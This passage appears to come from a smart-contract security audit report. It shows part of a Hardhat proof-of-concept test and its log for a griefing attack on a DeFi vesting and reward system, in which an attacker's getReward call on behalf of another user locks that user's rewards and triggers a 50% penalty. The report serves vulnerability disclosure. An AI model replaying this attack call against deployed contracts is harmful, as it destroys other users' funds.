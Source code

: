 ```typescript
    console.log("The pending reward of the user1: ", tokenIdToLockDetails.pending);

    console.log("The user1 call the claim function of the vestZeroNFT contract to claim tokenID of Ant"); 
    
    console.log("Zero balance of user1 after griefing attack", await zero.balanceOf(user1.address));
    console.log("Current timestamp", await helpers.time.latest());
   console.log("Mine 7776001 blocks with interval of 1 second"); 
    await helpers.mine(7776001, { interval: 1 });
    console.log("Current timestamp", await helpers.time.latest());
    zeroBalance = await zero.balanceOf(user1.address);
    console.log("Zero balance of user1: ", await zero.balanceOf(user1.address));
    await vest.connect(user1).claim(lastTokenId); 
    console.log("Zero balance of user1 after griefing attack", await zero.balanceOf(user1.address));
    console.log("Zero amout receive after claim ", await zero.balanceOf(user1.address) - zeroBalance);
    console.log("Zero balance of vestZeroNFT after contract", await zero.balanceOf(vest.target));
    console.log("The unclaimed amount of the tokenID", await vest.unclaimed(lastTokenId));


  });
```

In the above POC, to execute the attack, the hacker call the getReward for user1 and token is zero. 
By doing so, the reward of user1 is locked with penalty. 


```typescript
await aTokenGauge.connect(attacker).getReward(user1.address, zero);
```

When user1 claim after LinearDuration is 3 months, user1 suffer the penalty and get only 50% of the reward. 

Test log: 
Full Test Log: https://drive.google.com/file/d/1xvXr5S4uS3m34nZgfiKVEprcTk7sEJAY/view?usp=sharing

```
Create the pre-condition setup for the griefing attack
Atoken balance of user1:  0n
Zero balance of user1:  99999999980000000000000000000n
Deposit to get the Weth token
The Weth balance of the user1:  0n
Mint the Weth token for the user1
The Weth balance of user1:  10000000000000000000000n
Approve the pool to spend the Weth token of the user1
Deposit the Weth token to the pool
The Weth balance of user1:  0n
The Atoken balance of user1:  10000000000000000000000n
Notify the reward amount to the poolVoter contract
totalWeight:  0n
after vote totalWeight:  19996876902587519025n
length of pools: 0n
zero balance of PoolVoter:  0n
Step: the Deployer (the owner of Zero token) approve the PoolVoter to spend 100 ZERO token
After notifyRewardAmout zero balance of PoolVoter:  100000000000000000000n
The claimable reward of gauge:  0n
Call the updateFor gauge to update the claimable reward for the gauge
Distribution of the reward to the gauge
Before distribute zero balance of aTokenGauge:  0n
Before distribute zero balance of varTokenGauge:  0n
After distribute zero balance of aTokenGauge:  24999999999999999998n
After distribute zero balance of varTokenGauge:  74999999999999999994n
The reward of the user1:  0n
```